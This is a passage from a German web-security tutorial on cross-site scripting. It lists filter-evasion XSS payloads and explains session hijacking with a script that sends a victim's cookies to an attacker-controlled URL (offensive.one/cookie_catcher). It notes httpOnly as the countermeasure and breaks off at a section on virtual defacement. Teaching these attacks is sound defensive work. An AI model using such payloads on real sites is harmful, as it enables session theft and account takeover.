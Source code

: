     <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

    <IMG SRC= onmouseover="alert('xxs')">
    <IMG SRC="jav    ascript:alert('XSS');">
    <BGSOUND SRC="javascript:alert('XSS');">
    <IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">

Eine gute Quelle für weitere XSS-Beispiele ist das OWASP XSS Filter
Evasion Cheat Sheet[2].

### XSS-Payloads

Mittels des eingeschleusten JavaScript-Code versucht der Angreifer nun,
negativen Einfluss auf einen Benutzer zu nehmen.

#### Session Hijacking

Javascript wird innerhalb des Browsers ausgeführt. Da in diesem auch
zumeist das Session-Cookie zur Identifikation eines Benutzers gegneüber
dem Server gespeichert wird, ist das Stehlen dieses via XSS naheliegend.

Um dies zu bewerkstelligen, verwendet der Angreifer einen
öffentlich-erreichbaren Webserver zu welchem die Cookies (und damit die
Benutzeridentitäten) übermittelt werden sollen. In dem Bespiel wird
<https://offensive.one/cookie_catcher> für diesen Zweck verwendet.

Findet der Angreifer auf der Opferwebseite eine persistent-XSS
Möglichkeit, könnte er nun folgendes Javascript-Fragement als
XSS-Payload verwenden:

    <script>
        document.location="https://offensive.one/cookie_catcher?c="+document.cookie;
    </script>

Der Webbrowser würde also zu einer neuen URL auf dem Angreifer-Server
navigiert werden. Ein Teil der URl ist der Parameter ,,c”, dieser
Parameter wird mit den aktuellen Cookies befüllt. In diesen ist auch das
Session-Cookie enthalten. Der Angreifer würde dieses nun aus den
Log-Dateien seines Servers auslesen, und Zugriffe auf den ursprünglichen
Server mit diesem Cookie mit der Identität des Opfers ausführen können.

Als Gegenmassnahme für diese Payload sollte insbesondere das
*httpOnly*-Flag bei Cookies genannt werden. Durch dieses Flag wird der
Zugriff via Javascript auf das damit konfigurierte Cookie unterbunden.

#### Virtual Defacement

Ein weiteres Beispiel wäre *Virtual Defacement*: bei diesem wird mittels
JavaScript die dargestellt Webseite verändert und dadurch ein Defacement
durchgeführt. Bösartig an diesem ist, dass die direkten Inhalte
(Webseiten im Filesystem des Webservers) weiterhin korrekt aussehen.

Ein Beispiel wäre folgende Opferwebseite:
